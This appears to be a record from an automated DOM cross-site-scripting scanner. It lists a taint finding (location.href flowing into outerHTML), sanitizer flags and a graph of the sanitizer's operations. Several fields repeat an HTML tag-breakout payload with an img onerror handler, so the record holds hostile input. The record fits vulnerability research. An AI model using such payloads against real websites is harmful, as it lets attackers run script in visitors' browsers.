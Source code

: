 // Finding: 0c41870b-5858-42cd-ad54-c6c73d149b6c
// Finding.url: https://interactive.example161.com/embed/from-tool/series/index.html?vertical=News&opinion-tint=false&title=O</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('96f3c29f8f3d4000bf6e820dc01f6550')><!--/*&description=Investigating inequalities in America’s broken food system and efforts to fix it&read-more-link=https://www.theguardian.com/environment/series/our-unequal-earth&links=false
// Finding.parentloc: https://interactive.example161.com/embed/from-tool/series/index.html?vertical=News&opinion-tint=false&title=O</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('96f3c29f8f3d4000bf6e820dc01f6550')><!--/*&description=Investigating inequalities in America’s broken food system and efforts to fix it&read-more-link=https://www.theguardian.com/environment/series/our-unequal-earth&links=false
// Finding.domain: interactive.example161.com
// Finding.base_domain: example161.com
// Finding.source: location.href
// Finding.sink: outerHTML
// Sanitizer.score: 2
// Sanitizer.name: init/<
// Sanitizer.location: https://interactive.example161.com/embed/from-tool/handlebars.min.js line 28 > Function - anonymous:6:108
// Finding.begin: 38
// Finding.end: 42
// Finding.original_uuid: 714df7d4-f528-40e0-9ad4-2e64c52db618
// Finding.TwentyFiveMillionFlowsId: -231290339
// Finding.script: https://interactive.example161.com/embed/from-tool/series/index.html?vertical=News&opinion-tint=false&title=O</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('96f3c29f8f3d4000bf6e820dc01f6550')><!--/*&description=Investigating inequalities in Americaâs broken food system and efforts to fix it&read-more-link=https://www.theguardian.com/environment/series/our-unequal-earth&links=false
// Finding.line: 482
// Exploit.uuid: 96f3c29f-8f3d-4000-bf6e-820dc01f6550
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: O
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: O</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: O</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 104
// Exploit.end_taint_url: 127
// Exploit.replace_begin_url: 104
// Exploit.replace_end_url: 127
// Exploit.replace_begin_param: 188
// Exploit.replace_end_param: 211
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -2048387390
// DepGraph.sanitizer_hash: -2048387390

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="strtolower"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /[ ]/"];
n5 [shape=box, label="Lit: -"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="preg_replace"];
n8 [shape=box, label="RegExp: /\//"];
n9 [shape=box, label="Lit: "];
n10 [shape=box, label="Var: x"];
n11 [shape=box, label="Var: x"];
n12 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n11 -> n7;
n12 -> n11;
}